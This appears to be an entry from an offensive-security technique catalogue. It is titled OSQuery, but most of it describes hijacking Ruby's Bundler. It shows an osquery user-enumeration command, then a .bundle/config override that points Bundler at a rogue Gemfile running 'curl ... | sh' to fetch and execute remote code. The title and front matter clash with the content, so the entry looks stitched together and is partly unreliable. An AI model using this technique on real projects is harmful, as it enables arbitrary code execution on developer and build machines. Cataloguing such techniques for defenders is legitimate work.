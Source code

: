 ```yaml
---
title: OSQuery
tags:
- Enum
- Exec
- config-file
references: 
- https://bundler.io/v2.5/man/bundle-config.1.html
files: ['Gemfile', '*.gemspec*', '.bundle/config']
purl: pkg:gem/bundler
---
```


osquery is an operating system instrumentation framework for Windows, OS X (macOS), and Linux. The tools make low-level operating system analytics and monitoring both performant and intuitive..

```Enumerate users
osqueryi --json "SELECT username, description, sid, directory FROM users;"
```



If the Gemfile cannot be modified, Bundler can use a local configuration in `.bundle/config` that allows changing the path of the Gemfile. 

```yaml 
---
BUNDLE_GEMFILE: "NotGemfile"
BUNDLE_PATH: "vendor/bundle"
BUNDLE_DEPLOYMENT: "true"
```

The rogue Gemfile `NotGemfile` can then be used to execute commands:
```ruby

# Execute arbitrary commands
system("curl ... | sh")
 
# Optional: load the original Gemfile to avoid errors
eval_gemfile "Gemfile"
```

Note: Bundler configuration properties defined in `$HOME/.bundle/config` and in environment variables have precedence over the local configuration file.

